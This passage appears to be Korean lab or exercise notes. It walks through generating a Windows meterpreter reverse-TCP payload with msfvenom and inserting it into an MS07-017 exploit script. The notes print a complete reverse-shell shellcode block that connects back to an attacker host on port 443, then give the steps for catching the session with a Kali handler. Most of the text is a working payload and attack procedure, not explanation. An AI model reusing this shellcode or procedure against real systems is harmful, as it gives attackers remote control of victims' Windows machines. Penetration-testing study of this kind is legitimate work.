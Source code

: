 해당 스크립트 실행

```shell
msfvenom --payload windows/meterpreter/reverse_tcp --platform=windows --format python [LHOST=공격자 IP] LPORT=443
```

<br>

나온 쉘코드를 05.ms07017_exploit_fixpayload.py에 수정

이건 IP마다 다르니 각자 실행해서 사용!!

```python
shellcode =  b""
shellcode += b"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b"
shellcode += b"\x52\x30\x8b\x52\x0c\x8b\x52\x14\x31\xff\x8b\x72\x28"
shellcode += b"\x0f\xb7\x4a\x26\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20"
shellcode += b"\xc1\xcf\x0d\x01\xc7\x49\x75\xef\x52\x57\x8b\x52\x10"
shellcode += b"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01"
shellcode += b"\xd0\x8b\x58\x20\x50\x01\xd3\x8b\x48\x18\x85\xc9\x74"
shellcode += b"\x3c\x49\x31\xff\x8b\x34\x8b\x01\xd6\x31\xc0\xc1\xcf"
shellcode += b"\x0d\xac\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d"
shellcode += b"\x24\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b"
shellcode += b"\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
shellcode += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b"
shellcode += b"\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68"
shellcode += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8\xff"
shellcode += b"\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80"
shellcode += b"\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x0b\x82\x68\x02"
shellcode += b"\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
shellcode += b"\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68"
shellcode += b"\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08"
shellcode += b"\x75\xec\xe8\x67\x00\x00\x00\x6a\x00\x6a\x04\x56\x57"
shellcode += b"\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b"
shellcode += b"\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58"
shellcode += b"\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68"
shellcode += b"\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68"
shellcode += b"\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff"
shellcode += b"\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c"
shellcode += b"\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01"
shellcode += b"\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00"
shellcode += b"\x53\xff\xd5"

```

<br>

칼리에서 <b>handler_meterpreter_reverse_443.rc</b>를 실행

윈도우에서 접속 후 세션이 잘 받아졌는지 확인

<br>

---

## Q5
